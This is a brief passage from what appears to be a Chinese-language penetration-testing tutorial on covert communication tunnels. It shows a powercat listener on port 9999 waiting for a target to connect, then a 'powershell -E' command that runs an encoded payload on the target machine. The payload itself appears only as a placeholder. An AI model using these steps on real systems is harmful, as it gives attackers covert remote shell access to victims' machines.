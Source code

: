 ![](/assets/img/隐藏通信隧道基础知识/59.png)

然后再Win7上监听9999端口等待目标连接：

```
powercat -l -p 9999 -v
```

![](/assets/img/隐藏通信隧道基础知识/60.png)

最后在Win10上执行命令：

```
powershell -E 这里是刚刚生成的加密密文
```

